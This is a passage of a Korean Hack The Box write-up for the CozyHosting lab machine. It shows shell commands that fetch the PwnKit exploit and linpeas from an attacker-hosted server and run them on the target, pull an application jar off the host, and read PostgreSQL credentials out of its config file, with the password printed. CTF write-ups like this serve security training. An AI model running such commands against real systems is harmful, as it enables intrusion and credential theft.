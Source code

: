 ```bash
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# python3 -m http.server 7777 

app@cozyhosting:/tmp$ wget http://10.10.14.74:7777/PwnKit
app@cozyhosting:/tmp$ chmod +x PwnKit 
app@cozyhosting:/tmp$ ./PwnKit 
Segmentation fault (core dumped) # 익스플로잇 실패


```
linpeas로 권한상승 취약점 탐색

```bash
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# python3 -m http.server 7777  
app@cozyhosting:/tmp$ wget http://10.10.14.74:7777/linpeas.sh
app@cozyhosting:/tmp$ chmod +x linpeas.sh 
app@cozyhosting:/tmp$ ./linpeas.sh | tee linpeas_output.txt

```

![alt text](img/image8.png)

로컬호트스에서 접근가능한 포트중에 5432(PostgreSQL 데이터베이스 서버)포트가 눈에 띈다 하지만 사용자 계정이 없음


호스트 서버를 더 둘러보면 처음 셸연결됐을때 홈디렉토리에 cloudhosting-0.0.1.jar파일을 조사
```bash
app@cozyhosting:/app$ python3 -m http.server 5555 

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget http://10.129.216.42:5555/cloudhosting-0.0.1.jar  

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting/BOOT-INF/classes]
└─# cat application.properties 
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 
```
postgresql의 계정정보로 보이는 정보를 얻었다  
username=postgres  
password=Vg&nvzAQ7XxR  
